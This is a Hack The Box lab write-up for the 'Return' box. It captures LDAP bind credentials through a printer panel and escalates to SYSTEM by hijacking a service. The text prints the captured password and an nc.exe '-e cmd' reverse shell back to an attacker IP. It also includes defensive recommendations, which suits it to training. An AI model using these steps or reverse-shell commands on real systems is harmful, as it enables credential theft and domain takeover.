# Return — Hack The Box (CPTS practice)

**Platform:** Hack The Box
**Difficulty:** 🟢 Easy
**OS:** Windows (Active Directory)
**Certification:** Extra practice for the CPTS (Certified Penetration Testing Specialist)
**Date completed:** 2026
**Techniques:** Nmap · Printer web panel with a tamperable LDAP configuration · Cleartext credential capture with an `nc` listener · Evil-WinRM · **Server Operators** group · **Service hijacking** (`sc.exe config` on `VGAuthService`) → SYSTEM
**Language:** English — [🇪🇸 Versión en español](./Return_Writeup_ES.md)

---

## Table of contents
1. [Reconnaissance](#1-reconnaissance)
2. [Enumerating the printer's web panel](#2-enumerating-the-printers-web-panel)
3. [Initial access — capturing credentials with a listener](#3-initial-access--capturing-credentials-with-a-listener)
4. [Getting a shell — the Server Operators group](#4-getting-a-shell--the-server-operators-group)
   - [Privilege escalation — service hijacking](#privilege-escalation--service-hijacking)
5. [Post-exploitation and flags](#5-post-exploitation-and-flags)
6. [Lessons learned](#6-lessons-learned)
7. [Tool & command glossary](#7-tool--command-glossary)

---

## 1. Reconnaissance

```bash
ping -c 1 10.129.73.55
```

> 🛠️ **`ping`** — checks host availability via ICMP. A TTL of **127** → **Windows**.



Full TCP port scan:

```bash
nmap -sS -Pn -vvv --min-rate 5000 --open -n -p- -oN AllPorts 10.129.73.55
```

> 🛠️ **`nmap -sS -Pn -vvv --min-rate 5000 --open -n -p-`** — a full SYN scan of all 65535 ports: `-sS` (stealthy), `-Pn` (ignore ping status), `--min-rate 5000` (speeds up sending), `--open` (only open ports), `-n` (no DNS resolution).



```bash
enum-nmap AllPorts
```

> 🛠️ **`enum-nmap`** — a custom script that summarizes Nmap's output: IP, TTL, estimated OS, and a port list ready for the next `-p`.



> 💡 26 open ports, including **53 (DNS), 80 (HTTP), 88 (Kerberos), 389/636/3268/3269 (LDAP/LDAPS/Global Catalog), 445 (SMB), and 5985/47001 (WinRM)** — the classic service set of an **Active Directory domain controller**, plus an unusual web service on port 80.

Version and default-script scan:

```bash
nmap -sS -Pn -sCV -T5 -n -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49674,49675,49678,49682,49694 -oN Ports 10.129.73.55
```

> 🛠️ **`-sCV`** combines `-sC` (Nmap's default scripts) with `-sV` (service version detection).



```
80/tcp  open  http  Microsoft IIS httpd 10.0
|_http-title: HTB Printer Admin Panel
389/tcp open  ldap  Microsoft Windows Active Directory LDAP (Domain: return.local, ...)
Service Info: Host: PRINTER; OS: Windows
```

> 💡 Domain **`return.local`**, hostname **`PRINTER`**. Port 80 hosts a corporate **printer** admin panel — the page title already hints at the box's theme.

## 2. Enumerating the printer's web panel

We browse to the web panel:



Under the **Settings** menu we find the configuration form for the LDAP client the printer uses to authenticate users against the domain:

```
http://10.129.73.55/settings.php
```



```
Server Address: printer.return.local
Server Port:    389
Username:       svc-printer
Password:       *******
```

> 🛠️ **`settings.php`** — a typical configuration form for a corporate multifunction/printer device: it stores a domain service account (`svc-printer`) used to perform an LDAP bind against whatever server is set in **Server Address**, with no validation of that destination.

> 💡 The **Server Address** field accepts any arbitrary IP with zero validation. When **Update** is clicked, the application connects via LDAP to that address and sends the bind credentials (`svc-printer`'s username and password) — if we point that field at our own machine, we receive those credentials directly.

## 3. Initial access — capturing credentials with a listener

### Why is plain `nc` enough to capture LDAP credentials?

The LDAP protocol uses binary ASN.1/BER encoding for its messages, so an `nc` capture isn't "plaintext" in the strictest sense. However, inside a **`bindRequest`** operation (a login attempt), the `name` field (the DN or username) and the `simple` field (the password, in a simple bind) are encoded as **unencrypted, unobfuscated** byte strings — preceded only by a handful of ASN.1 control bytes. That means even without a real LDAP server on the receiving end, a plain TCP listener that prints the raw bytes it receives is enough to read the username and password in cleartext, with no need to implement the full LDAP protocol or use specialized tooling.

We set up the listener on port 389/TCP:

```bash
nc -lvnp 389
```

> 🛠️ **`nc -lvnp 389`** — Netcat in listen mode (`-l`) on port `389` (the one the printer already has configured by default), printing every connection and the raw bytes received. No need to implement LDAP: the bind still arrives, and its username/password fields are readable as-is.



In the web panel, we change **Server Address** from `printer.return.local` to our attacker IP and click **Update**:



```
Server Address: 10.10.15.31
```

The printer immediately tries to authenticate against our listener, revealing `svc-printer`'s credentials in cleartext:



```
connect to [10.10.15.31] from (UNKNOWN) [10.129.73.55] 64552
0*`%return\svc-printer@
                        1edFg43012!!
```

```
return\svc-printer : 1edFg43012!!
```

## 4. Getting a shell — the Server Operators group

With the captured credentials, we authenticate directly over WinRM (port 5985, already spotted in the initial scan):

```bash
evil-winrm -i 10.129.73.55 -u 'svc-printer' -p '1edFg43012!!'
```

> 🛠️ **`evil-winrm`** — a client for Windows Remote Management (WinRM) sessions, spiritually equivalent to SSH but for remote PowerShell.



Shell obtained. We locate the first flag:

```powershell
dir C:\Users\svc-printer\Desktop
```



`user.txt` (34 bytes) confirmed on `svc-printer`'s desktop — first flag.

```powershell
whoami
```



```
return\svc-printer
```

### Enumerating the user's groups

```powershell
whoami /groups
```

> 🛠️ **`whoami /groups`** — lists every group (local and domain) the current user belongs to, along with its SID — the first step for spotting group-membership-based privilege escalation paths.



```
BUILTIN\Server Operators    Alias   S-1-5-32-549
```

### What does the Server Operators group grant?



> 💡 Per Microsoft's own documentation, **`Server Operators`** is a built-in group that exists only on domain controllers and, among other rights, lets its members: log on locally to the DC, create/delete network shares, **back up/restore files** (bypassing ACLs via `SeBackupPrivilege`), and — the key to this box — **stop and start system services**. In practice, this is nearly equivalent to local administrator on the domain controller.

## Privilege escalation — service hijacking

The ability to **stop and start services**, combined with the ability to modify a service's `binPath` (which any service operator can do on an existing service), allows hijacking any service that runs as `LocalSystem`.

We list installed services and their executable paths:

```powershell
services
```

> 🛠️ **`services`** — an Evil-WinRM built-in command that lists Windows services along with their execution `Path` and whether the current user has privileges over them.



```
"C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"   True   VGAuthService
```

> 💡 **`VGAuthService`** (part of VMware Tools) runs by default as `LocalSystem` and, being unprotected against reconfiguration by `Server Operators`, is a perfect candidate for *service hijacking*: just change its `binPath` and restart it.

We prepare the `nc.exe` binary (the Windows build of Netcat) to use as the payload:

```bash
locate nc.exe
```



We upload it to the victim through the Evil-WinRM session:

```powershell
upload /local/path/to/nc.exe
```

> 🛠️ **`upload`** — an Evil-WinRM built-in command that transfers a local file to the victim machine over the already-authenticated WinRM session, no extra server required.



### Why does modifying a service's `binPath` work?



Every Windows service has an execution path (`ImagePath`/`binPath`) stored in the registry, which the **Service Control Manager (SCM)** invokes on startup — always with the privileges of the account configured for that service, which by default is usually `LocalSystem`. `sc.exe config <service> binPath="..."` modifies that path directly. The SCM never validates that the new binary actually implements the Windows service-control protocol (start, stop, pause) — it simply executes it. That means if we swap the legitimate binary for any other executable, the SCM will launch it anyway **with the same privileges** the original service had, even if that binary "fails" as a service immediately afterward.

We modify `VGAuthService`'s `binPath` so that, on startup, it runs `nc.exe` in client mode, launching a `cmd.exe` shell toward our IP:

```powershell
sc.exe config VGAuthService binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd 10.10.15.31 444"
```

> 🛠️ **`sc.exe config <service> binPath="..."`** — modifies an existing service's configuration, including its execution path. The space between `binPath=` and the value is mandatory: `sc.exe` requires it for historical compatibility, and the command fails without it.



```
[SC] ChangeServiceConfig SUCCESS
```

We set up a listener on our machine and restart the service so it picks up the new `binPath`:

```bash
nc -lvnp 444
```

```powershell
sc.exe stop VGAuthService
sc.exe start VGAuthService
```

> 💡 The service "fails" to start as a real service (because `nc.exe` doesn't implement the service-control protocol), but that happens **after** the SCM has already executed the binary with `LocalSystem` privileges — more than enough time for the reverse connection to establish.



```
connect to [10.10.15.31] from (UNKNOWN) [10.129.73.55] 57675
Microsoft Windows [Version 10.0.17763.107]

C:\Windows\system32>
```

We confirm the execution context:

```cmd
whoami
```



```
nt authority\system
```

> 💡 **`NT AUTHORITY\SYSTEM`** is Windows' most privileged account. Obtaining it on a **domain controller** isn't limited to that one machine — in practice, it's equivalent to compromising the entire domain (dumping `NTDS.dit`, creating Domain Admins, modifying GPOs...).

## 5. Post-exploitation and flags

```cmd
dir C:\Users\Administrator\Desktop
```



`root.txt` (34 bytes) confirmed on Administrator's desktop — full domain controller compromise.

> 🔒 The exact contents of `user.txt` and `root.txt` aren't published in this writeup on purpose, so anyone practicing this same box still has to complete that last step themselves — the full path to each one is documented in §4 and §5.

## 6. Lessons learned

| Vulnerability | Where | Impact |
|----------------|-------|---------|
| Printer web panel with no validation of the configured LDAP destination | `settings.php` | Lets an attacker redirect the LDAP bind to a server they control |
| Domain service credentials stored and transmitted in cleartext by the panel | `svc-printer` account | Trivial credential capture with a plain `nc` listener |
| Service account with WinRM access | `svc-printer` in `Remote Management Users` | Direct remote code execution via Evil-WinRM |
| Service account member of `Server Operators` | Built-in Windows group on the DC | Ability to modify and restart any system service |
| System services reconfigurable by `Server Operators` with no extra restriction | `VGAuthService` | Service hijacking → arbitrary execution as `LocalSystem`/SYSTEM |

## Defensive recommendations

- Validate the destination of any LDAP configuration in device web panels (host allow-list, certificate verification, reverse DNS).
- Enforce LDAPS (LDAP over TLS) on any device that queries the corporate directory, and disable unencrypted simple bind over port 389.
- Don't use privileged domain accounts for printer/device binds: use read-only accounts scoped to a limited OU.
- Restrict access to printer admin panels to a separate management network with strong authentication.
- Periodically audit membership in sensitive groups (`Server Operators`, `Backup Operators`, `Print Operators`): only strictly necessary accounts.
- Apply the principle of least privilege to service accounts.
- Monitor `sc.exe config`, registry `ImagePath` changes, and event log IDs `7045`/`7036`, which reflect service modifications.

## 7. Tool & command glossary

| Tool / command | What it's for |
|------------------|-----------------|
| `ping` / `nmap` | Host discovery and port/service enumeration |
| `enum-nmap` | Custom script that summarizes Nmap's output |
| **Printer web panel / `settings.php`** | A typical multifunction-device form that stores domain credentials to perform an LDAP bind against a configurable server |
| `nc -lvnp <port>` | Netcat in listen mode; enough to capture an LDAP `bindRequest`, since its username/password fields travel unencrypted inside the ASN.1 frame |
| `evil-winrm` | A client for Windows Remote Management (WinRM) sessions |
| `whoami /groups` | Lists the current user's local and domain groups along with their SID |
| **`Server Operators`** | A built-in Windows group, exclusive to domain controllers, that allows (among other things) stopping/starting services and backing up/restoring files while bypassing ACLs |
| `services` (Evil-WinRM) | Lists Windows services with their execution path and the current user's privileges over them |
| `upload` (Evil-WinRM) | Transfers a local file to the victim over the WinRM session |
| `sc.exe config <service> binPath="..."` | Modifies an existing service's execution path; the SCM invokes it with the service account's privileges (typically `LocalSystem`) on startup, without validating that the binary implements the real service protocol |
| `sc.exe stop` / `sc.exe start` | Stops/starts a service — `Server Operators` membership grants the rights needed to force the new `binPath` to run |
| `nc.exe -e cmd` | The Windows build of Netcat; `-e` wires a command shell directly to the network connection |

---

*Written by [Arabot](https://github.com/Caan31) · Hack The Box · CPTS practice · 2026*
